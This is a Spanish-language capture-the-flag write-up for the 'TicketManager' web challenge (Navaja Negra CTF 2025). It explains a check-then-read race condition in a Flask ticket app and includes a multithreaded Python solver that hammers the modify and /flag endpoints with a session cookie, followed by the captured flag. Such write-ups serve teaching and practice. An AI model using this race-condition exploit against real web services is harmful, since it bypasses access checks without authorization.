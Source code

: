 # TicketManager

> Navaja Negra CTF 2025

> 02/10/2025 09:00 CEST - 04/10/2025 11:00 CEST

* Categoría: Web
* Autor: eljoselillo7
* Dificultad: ★★☆
* Etiquetas: Condición de carrera

## Descripción

    Un gestor de tickets ligero y aparentemente inocente… Puedes guardar, editar y borrar tus textos como quieras. Fácil, ¿no? 🤔

## Archivos

    TicketManager.zip

## Resolución

La aplicación ofrece un sistema sencillo de gestión de tickets, permitiendo crear, modificar y eliminar entradas. El objetivo es conseguir que la aplicación nos devuelva una flag, la cual solo puede obtenerse si un ticket contiene únicamente la palabra `"flag"`.

Sin embargo, existe una validación que bloquea directamente la ejecución si detecta la cadena `"flag"` en el contenido, lo que en principio hace que el reto parezca imposible. Se deberá de explotar una condición de carrera para conseguir la flag.

### Análisis de la vulnerabilidad

El problema radica en cómo la aplicación consulta la base de datos. El flujo simplificado es el siguiente:

```python
entry = get_text(entry_id, user_id)
if entry:
    if "flag" not in entry.content:
        return flag_dict.get(get_text(entry_id, user_id).content, "Key not found")
    else:
        return "You are not allowed to retrieve the flag"
```

La clave está en que se realizan dos consultas consecutivas (`get_text`) sobre el mismo ticket:

1. La primera vez se valida si el texto contiene `"flag"`.
    
2. La segunda vez se utiliza ese mismo texto como clave para recuperar la flag.

La función `get_text` es:

```python
def get_text(entry_id, user_id):
    entry = TextEntry.query.filter_by(id=entry_id, user_id=user_id).first()
    db.session.refresh(entry)
    return entry
```

Este doble acceso a la base de datos abre la puerta a una race condition, ya que entre la primera y la segunda consulta el contenido puede ser modificado.

### Explotación

La idea es la siguiente:

1. Creamos un ticket con un contenido inicial que no contenga la palabra `"flag"` (para superar la primera comprobación, por ejemplo `"flg"`).

2. Justo después de pasar el primer `if`, pero antes de que se ejecute el segundo `get_text`, modificamos el ticket para que su contenido sí contenga `"flag"`.
    
3. De esta forma, la validación inicial se supera, pero en la segunda consulta el contenido ya habrá cambiado, permitiéndonos acceder al diccionario `flag_dict` y recuperar la flag real.

La forma más fácil de explotar la vulnerabilidad es enviar un gran número de las peticiones HTTP necesarias de manera muy rápida. Para explotar la vulnerabilidad, necesitaremos enviar 3 peticiones diferentes.

- Petición HTTP para modificar el texto del ticket a una palabra que no sea `flag`, por ejemplo `flg`.
- Petición HTTP para modificar el texto del ticket a la palabra  `flag`.
- Petición HTTP a `/flag`.

Para ello se puede programar un script con múltiples threads o usar herramientar como la extensión Turbo Intruder de BurpSuite.

Un ejemplo de solución sería el siguiente:

```python
#!/usr/bin/python3
import sys
from requests import post, get

if len(sys.argv) != 4:
    print("Uso: python3 solver.py <URL_BASE> <COOKIE> <ID_TEXTO_YA_CREADO>")
    print("Ejemplo: python3 solver.py http://example.com:5001 eyc2VyXc2VyXc2VyX.c2VyXc2VyXc2VyXc2VyX.c2VyXc2VyXc2VyX 3")
    sys.exit(1)

BASE_URL = sys.argv[1].rstrip("/")  # Asegura que no termine en "/"
# PONER COOKIE AQUI
token = sys.argv[2]

global_entry_id = sys.argv[3]

N = 10

# Communication with the app
def mod1(token):
  cookies = {"session": token}
  return post("{}/home".format(BASE_URL), cookies=cookies, data={"new_text_{}".format(global_entry_id):"flag","action":"modify_{}".format(global_entry_id)})

def get1(token):
  cookies = {"session": token}
  r = get("{}/flag?id={}".format(BASE_URL, global_entry_id), cookies=cookies)
  if "nnctf" in r.text:
    print(r.text)
  return r


def mod2(token):
  cookies = {"session": token}
  return post("{}/home".format(BASE_URL), cookies=cookies, data={"new_text_{}".format(global_entry_id):"flg","action":"modify_{}".format(global_entry_id)})


# Threads Classes
import threading
import time
class Get1(threading.Thread):
 def run(self):
    while True:
      try:
        get1(token)
      except:
        pass 

class Modi1(threading.Thread):
 def run(self):
    while True:
      try:
        mod1(token)
      except:
        pass

class Modi2(threading.Thread):
 def run(self): 
    while True:
      try:
        mod2(token)
      except:
        pass 

if __name__ == "__main__":
  t1 = []
  for _ in range(N):
    t1.append(Modi1())
    t1[-1].start()
    t1.append(Modi2())
    t1[-1].start()
    t1.append(Get1())
    t1[-1].start()

```

> **flag: nnctf{no_c0rras_t4nt0_am1g0!}**